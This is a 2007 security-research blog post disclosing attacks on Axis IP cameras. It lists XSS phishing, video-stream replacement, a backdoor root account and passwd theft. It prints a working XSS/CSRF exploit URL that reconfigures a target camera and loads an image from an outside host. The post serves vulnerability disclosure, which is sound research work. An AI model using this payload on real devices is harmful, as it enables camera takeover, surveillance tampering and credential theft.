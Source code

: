 ```yaml
---
title: Owning Big Brother - Hollywood-style Exploits Included!
author: adrian-pastor
date: Fri, 28 Sep 2007 18:43:14 GMT
template: post.jade
---
```


I've done some research on Axis IP cameras, which now I am able to disclose to you and reveal some of the magic. Although this is not independent research, I am mentioning it here as it may interest some.

The research is made of two components: a purple paper (one of the traditions we follow in GNUCITIZEN) and a video. I promise you that I won't bore you with PoCs, but actual Hollywood-style exploits. This includes the classic attack in which the legitimate video stream gets replaced by another stream that keeps looping forever (remember [Speed](http://en.wikipedia.org/wiki/Speed_(film))). We even created a [demo video](//www.youtube.com/watch?v=CEaasduNWBE) of this attack! Blame [Major Malfunction](http://www.alcrypto.co.uk/) (soon to be featured) for this, as he suggested the third-party-video infinite loop technique.

Here are some of the juicy bits, mentioned in the paper:

* Cross-browser XSS phishing
* Replacing the legitimate video stream with our own
* Adding a Backdoor Root Account
* Stealing the 'passwd' File

Here is an example of an exploit that we've come up with. You don't know what it is doing? Well, read the paper for more details:

	http://target/%3cscript%20src=%22/this_server/ServerManager.sr
	v%3fconf_Layout_TitleEnabled=yes&Layout_TitleEnabled=on&conf_L
	ayout_OwnTitleEnabled=yes&conf_Layout_OwnTitle=%3cimg%20src=ht
	tp://snipu.com/f1%3e%3c!--
	&servermanager_do=set_variables%22%3e%3c/script%3e%3c!--
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
